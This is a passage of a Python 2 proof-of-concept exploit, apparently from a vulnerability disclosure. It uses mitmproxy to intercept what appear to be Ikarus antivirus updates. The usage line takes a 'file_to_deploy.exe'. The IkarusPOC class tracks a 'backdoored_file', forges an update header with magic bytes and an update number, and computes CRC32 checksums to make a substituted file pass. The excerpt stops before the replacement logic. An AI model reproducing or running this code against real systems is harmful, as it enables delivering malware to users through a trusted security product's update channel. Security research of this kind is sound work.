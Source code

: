 ```


```
./poc.py file_to_deploy.exe
```

```
#!/usr/bin/env python2
import os
try:
    from mitmproxy import controller, proxy, platform
    from mitmproxy.proxy.server import ProxyServer
except:
    from libmproxy import controller, proxy, platform
    from libmproxy.proxy.server import ProxyServer

import re
import struct
import sys
import zlib
import bz2

class IkarusPOC(controller.Master):
    def __init__(self, server, backdoored_file):
        controller.Master.__init__(self, server)
        self.ikarus= {}
        self.crc_file = 0
        self.backdoored_file = backdoored_file
        self.to_replace = 0
        self.already_patched = 0
        self.update_number = 0

    def win_header(self):
        self.update_header = "\x49\x4B\x55\x50\x00\x00\x00\x00\x3C\x00\x00\x00\x00\x00\x00\x00"
        self.update_header += "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        self.update_header += struct.pack("<I", self.to_replace)        # update number
        self.update_header += struct.pack("<I", self.crc_file)          # checksum
        self.update_header += "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        self.update_header += "\x00\x00\x00\x00"

    def run(self):
        try:
            return controller.Master.run(self)
        except KeyboardInterrupt:
            self.shutdown()

    def crc_stream(self, a_string):
        prev = 0
        return zlib.crc32(a_string, prev) & 0xFFFFFFFF

    def crc(self, some_file):
        prev = 0
        for eachLine in open(some_file,"rb"):
            prev = zlib.crc32(eachLine, prev)
        self.crc_file = prev & 0xFFFFFFFF
        print "[*] crc_file", self.crc_file
